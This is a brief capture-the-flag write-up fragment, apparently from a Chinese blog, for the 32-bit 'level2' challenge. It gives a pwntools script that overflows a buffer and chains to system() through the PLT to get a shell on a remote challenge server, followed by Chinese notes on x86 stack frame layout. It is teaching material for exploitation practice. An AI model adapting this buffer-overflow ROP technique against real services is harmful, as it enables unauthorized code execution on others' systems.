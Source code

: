 https://blog.csdn.net/Zarcs_233/article/details/103996634

payload:
from pwn import *
context.update(arch='i386')

p = remote('111.198.29.45',30411)
e = ELF('./level2')

p.sendlineafter(':',flat(['a'*0x8c,e.plt['system'],0,0x804A024,0,0]))
p.interactive()
其中flat的含义是自动构造ROP

正常的的函数func都会有函数序言:push ebp,mov ebp,esp.
这里就会将ebp保存下来，此时的func的栈帧esp=ebp,一般都会sub esp一下抬高栈顶
而call一般会push eip(伪代码),所以此时栈帧是这样的

参数2		ebp+Ch
参数1		ebp+8h
返回地址		ebp+4h
保存的ebp	ebp+0h
局部变量1	ebp-4h
局部变量2	ebp-8h
